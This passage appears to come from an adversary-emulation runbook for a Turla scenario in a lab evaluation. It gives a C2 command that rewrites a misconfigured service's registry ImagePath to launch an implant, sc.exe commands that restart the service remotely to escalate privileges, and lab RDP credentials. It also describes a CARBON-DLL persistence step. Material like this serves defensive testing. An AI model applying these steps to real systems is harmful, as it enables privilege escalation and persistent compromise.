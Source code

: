 * Wait 1 minute before tasking EPIC to modify the misconfigured ViperVPNSvc service to use our implant to execute:

```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | reg add "HKLM\system\currentcontrolset\services\ViperVPNSvc" /t REG_EXPAND_SZ /v ImagePath /d "cmd.exe /c %TEMP%\mxs_installer.exe" /f'
```

:arrow_right: Wait 1 minute before switching to your RDP session to `hobgoblin
(10.20.20.102)`. Minimize (do not close) the `hobgoblin (10.20.20.102)` RDP
window.

:arrow_right: RDP into `bannik (10.20.10.9)`, as `Frieda`:

| Username   | Password |
| :--------: | :---------------: |
| skt\Frieda  | Password3! |

* Close any spurious windows.

* Open up an administrative Powershell session and run the following commands to remotely restart the service:

```powershell
sc.exe \\hobgoblin stop ViperVPNSvc
sc.exe \\hobgoblin start ViperVPNSvc
```
ℹ️ Starting the ViperVPN service should take at least 30 seconds and eventually
result in an error `[SC] StartService FAILED 1053`. The EPIC injector will wait
an additional 2 minutes before performing injection. If the `[SC] StartService
FAILED 1053` error occurs in less than 10 seconds and/or you don't receive a
new session, contact your Evals lead.

* Wait 1 minute and then :o: sign out of your RDP session to `bannik (10.20.10.9)` as `Frieda`

:arrow_right: Switch to your Kali attack station and confirm that a new elevated implant has registered.

### :moyai: Source Code

* EPIC
  * Execute commands [ExecCmd](../../Resources/EPIC/payload/src/epic.cpp#L47-L71)
  * Write results to log file [WriteResults](../../Resources/EPIC/payload/src/epic.cpp#L311-L345)

### :microscope: Cited Intelligence

* <https://securelist.com/the-epic-turla-operation/65545/>
* <https://www.welivesecurity.com/wp-content/uploads/2018/01/ESET_Turla_Mosquito.pdf>

<br>

## Step 4 - Persistence

:microphone: `Voice Track:`

Step 4 emulates Turla deploying and installing CARBON-DLL as a second stage
malware onto Gunter's workstation in order to maintain persistence. CARBON-DLL,
a variant of CARBON relying on DLLs and asymmetric encryption, will inject an auxiliary
communications module DLL into an existing browser process on Gunter's workstation
to establish C2 communications via a redirector using HTTP requests. Once this communication
channel is created, the malware will run a few discovery commands on Gunter’s
device.
